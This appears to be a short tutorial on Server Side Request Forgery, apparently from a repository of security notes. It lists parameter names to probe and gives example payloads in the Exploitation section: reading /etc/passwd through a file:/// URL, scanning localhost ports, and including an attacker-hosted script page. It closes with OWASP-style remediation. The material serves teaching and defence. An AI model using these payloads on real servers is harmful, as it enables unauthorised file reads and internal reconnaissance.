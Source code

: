 # 🔀 SSRF (Server Side Request Forgery)

SSRF refers to an attack where an attacker is able to send crafted request from vulnerable web application.

Attacker use parameters used in web application to control request from vulnerable server.
e.g:. `http://websitename.com/?parameter=http://anotherwebsite.com` So server is making request behalf of attacker.

## Impact 

- Bypass ip whitelisting
- Bypass host based authentication
- Scan the internal network
- Abuse of vulnerable website to blacklist 

## 🔎 How to Find

Find any parameter that may have some kind of external interaction or they can interact to external domain.

Example: `http://example.com/profile/php?uri=http://externalwebsite.com `

## Possible Related parameter for SSRF

```
| dest | redirect | uri | path | continue | url | window | next | data | reference | site | html | val | validate 
| domain | callback | return | page | view | dir | show | file | document | folder | root | path | pg | style 
| pdf | template | php_path | doc | feed | host | port | to | out | navigation open result
```

## Exploitation

1. Read file from the server: `http://example.com/profile?file=file:///../etc/passwd`  (here **../etc/passwd** is payload. replace with other payload)

2. Scan internal network open ports: `http://example.com/profile?file=http://localhost:21`  (here **21** is port. change one by one)

3. SSRF through RFI: `http://example.com/profile?file=https://yourwebsite.com/test.html`  (Create malicioud file **test.html** with contain this ` <script>alert(1)</script> ` script and host this file at server.

## Remediation
1. From Application layer:

 - Sanitize and validate all client-supplied input data
 - Enforce the URL schema, port, and destination with a positive allow list
 - Do not send raw responses to clients
 - Disable HTTP redirections
 - Be aware of the URL consistency to avoid attacks such as DNS rebinding and “time of check, time of use” (TOCTOU) race conditions

Do not mitigate SSRF via the use of a deny list or regular expression. Attackers have payload lists, tools, and skills to bypass deny lists.

2. From Network layer

 - Segment remote resource access functionality in separate networks to reduce the impact of SSRF.
 - Enforce “deny by default” firewall policies or network access control rules to block all but essential intranet traffic.
    Hints:
    ~ Establish an ownership and a lifecycle for firewall rules based on applications.
    ~ Log all accepted and blocked network flows on firewalls (see A09:2021-Security Logging and Monitoring Failures).

3. Additional Measures to consider:

 - Don't deploy other security relevant services on front systems (e.g. OpenID). Control local traffic on these systems (e.g. localhost)
 - For frontends with dedicated and manageable user groups use network encryption (e.g. VPNs) on independant systems to consider very high protection needs


## Refrence 

- https://portswigger.net/web-security/ssrf
- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
